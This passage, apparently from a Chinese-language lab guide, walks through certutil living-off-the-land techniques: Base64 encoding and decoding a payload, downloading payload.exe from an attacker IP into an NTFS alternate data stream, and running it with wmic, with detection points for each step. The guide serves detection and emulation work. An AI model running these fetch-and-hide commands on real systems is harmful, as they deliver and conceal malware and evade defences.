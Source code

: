    * **指令：**
     ```cmd
     certutil -encode payload.exe encoded_payload.txt
     ```

     * **說明：** `-encode` 參數用於將檔案進行 Base64 編碼。
   * **預期結果：** 在目前目錄下生成一個名為 `encoded_payload.txt` 的文字檔案，內容是 Base64 編碼的字串。
   * **偵測點：** 監控 `certutil.exe` 的程序創建事件，注意命令列包含 `-encode`。
3. **步驟 3：(可做可不做) 刪除原始檔案**

   * **指令：**
     ```cmd
     del payload.exe
     ```
   * **預期結果：** 原始的 `payload.exe` 被刪除。
4. **步驟 4：使用 Certutil 將 Base64 檔案解碼還原**

   * **指令：**
     ```cmd
     certutil -decode encoded_payload.txt decoded_payload.exe
     ```

     * **說明：** `-decode` 參數用於解碼 Base64 檔案。
   * **預期結果：** 在目前目錄下生成 `decoded_payload.exe`。執行應彈出計算機。
   * **偵測點：** 監控 `certutil.exe` 的程序創建事件，注意命令列包含 `-decode`。
5. **步驟 5：使用 Certutil 將檔案下載到 ADS**

   * **準備：** 新增一個看似無害的文字檔。
     ```cmd
     echo This is a normal text file. > benign.txt
     ```
   * **指令：** (將 `<attacker_ip>` 替換為攻擊者機器 IP)
     ```cmd
     certutil.exe -urlcache -split -f http://<attacker_ip>:8000/payload.exe benign.txt:hidden.exe
     ```

     * **說明：** 將下載目標指定為 `檔案名:流名稱`，即可寫入 ADS。
   * **預期結果：** 命令執行成功。檢查 `benign.txt` 的檔案大小，應該沒有變化。但 `payload.exe` 已被隱藏在 `benign.txt` 的 `hidden.exe` 這個 ADS 中。
   * **偵測點：** 監控 `certutil.exe` 的程序創建事件，注意命令列包含 `-urlcache` 和 `:流名稱`。監控 Sysmon Event ID 15 (FileStreamCreated) 事件，會記錄 ADS 的創建。
6. **步驟 6：從 ADS 執行 (使用 WMIC)**

   * **指令：**
     ```cmd
     wmic process call create "C:\Users\Public\Downloads\benign.txt:hidden.exe"
     ```

     * **說明：** `wmic process call create` 可以用來啟動程序，包括位於 ADS 中的程序。
   * **預期結果：** 計算機 (`calc.exe`) 彈出。
   * **偵測點：** 監控 `wmic.exe` 的程序創建事件，注意命令列包含 `:流名稱`。觀察程序樹，`wmic.exe` 啟動了 `benign.txt:hidden.exe` (實際執行的是 `calc.exe`)。

**攻擊者機器觀察：**

* 在 HTTP 伺服器的終端機視窗中，應該會看到來自 Victim VM IP 位址的 GET 請求記錄，請求的資源是 `/payload.exe`。

---